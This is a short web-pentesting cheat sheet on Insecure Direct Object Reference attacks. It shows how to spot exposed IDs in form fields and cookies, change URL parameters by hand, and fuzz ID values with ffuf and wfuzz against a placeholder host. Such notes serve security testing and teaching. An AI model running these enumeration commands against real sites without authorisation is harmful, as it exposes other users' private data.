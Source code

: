 ```yaml
---
title: Insecure Direct Object References (IDOR) Attack
desc: 
tags: [Burp, Ffuf, Hydra, IDOR, Web, Wfuzz]
alts: [API-Pentesting]
render_with_liquid: false
---
```


## 1. Find the Vulnerabilities from HTML Source Code

1. **Check the Names and Values of Input Form**

    ```html
    <input name="user_id" value="8" >
    ```

2. **Try What Happens When You Change the Cookie Value**

    ```
    Cookie: user_id=12
    ```

<br />

## 2. Change URL Parameters

1. **Manual Changing**

    ```sh
    /user?id=1
    /user?id=2

    /admin/posts/1
    /john/posts/1

    /static/1.txt
    /static/2.txt
    ```

2. **Fuzzing with Tools**

    ```sh
    ffuf -s -w numbers.txt -u http://vulnerable.com/user?id=FUZZ
    # -fs: Filter HTTP response size
    ffuf -s -w numbers.txt -u http://vulnerable.com/user?id=FUZZ -fs 439

    wfuzz -z file,./numbers.txt http://vulnerable.com/user?id=FUZZ
    ```
